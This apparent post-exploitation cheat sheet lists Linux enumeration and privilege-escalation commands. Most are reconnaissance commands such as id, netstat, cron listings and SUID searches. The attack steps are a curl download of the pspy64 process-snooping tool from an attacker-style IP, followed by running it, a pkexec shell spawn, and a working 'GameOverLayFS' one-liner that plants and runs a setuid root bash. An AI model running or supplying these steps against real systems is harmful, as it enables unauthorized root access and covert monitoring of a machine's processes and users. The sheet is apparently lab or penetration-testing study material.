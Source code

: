 ## Get box and user info  
```bash
date;id;w;uname -a; cat /etc/os*  
printenv
id -Gn
```

  
## Get full TTY  
```bash
which python  
which python3  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
```

## Network stack  
```bash
ifconfig  
ip a  
ss -tulpn  
netstat -tulpn  
route  
```
## Get-Processes  
```bash
ps -auxwwef  
```
## Snoop on processes  
curl http://192.168.45.193/pspy64 -o /dev/shm/pspy64  
chmod +x /dev/shm/pspy64  
./pspy64  
  
## Check for sudo privileges  
```bash
sudo -l  
```
  
## View all available disks  
```bash
lsblk  
```
  
## pkexec  
```bash
cat /etc/polkit-1/localauthority.conf.d/*  
pkexec "/bin/sh"  
```
  
## View kernel modules  
```bash
lsmod  
```
  
## Get cron jobs  
```bash
ls -latr /etc/*cron*  
ls -latr /etc/at*  
ls -latr /var/spool/cron/*  
grep 'CRON' /var/log/syslog  
```
  
# List packages on a Debian system  
```bash
dpkg -l  
```
  
## View files with the SUID bit set  
```bash
find / -perm -u=s -type f 2>/dev/null  
```
  
## Directories writable by the current user  
```bash
find / -writable -type d 2>/dev/null  
```
  
## Directories that everyone can execute in  
```bash
find / -perm -o x -type d 2>/dev/null  
```
  
## Files that everyone can execute  
```bash
find . -type f -perm /111  
```
  
### GAMEOVERLAYFS  
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```